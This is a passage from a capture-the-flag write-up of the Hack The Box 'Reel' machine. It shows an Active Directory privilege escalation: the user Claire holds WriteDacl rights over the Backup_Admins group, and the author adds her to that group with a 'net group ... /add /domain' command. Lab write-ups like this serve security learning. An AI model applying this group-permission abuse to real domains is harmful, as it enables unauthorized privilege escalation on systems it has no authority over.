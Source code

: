 And Im logged in SSH as Claire now.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-reel/Untitled%204.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-reel/Untitled%204.png)

## PrivEsc → Backup_Admins

While checking about Claire. I got to know she has one `First Degree Object Control` which means she has control directly over Backup_Admins.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-reel/Untitled%205.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-reel/Untitled%205.png)

Since we have WriteDacl rights on the Backup_Admins group. I can use that to add her to the group.

Added her to that group.

```bash
PS C:\Users\claire> net group "Backup_Admins" claire /add /domain                                                               
The command completed successfully.                                                                                             

PS C:\Users\claire> net user claire                                                                                             
User name                    claire                                                                                             
Full Name                    Claire Danes                                                                                       
Comment                                                                                                                         
User's comment                                                                                                                  
```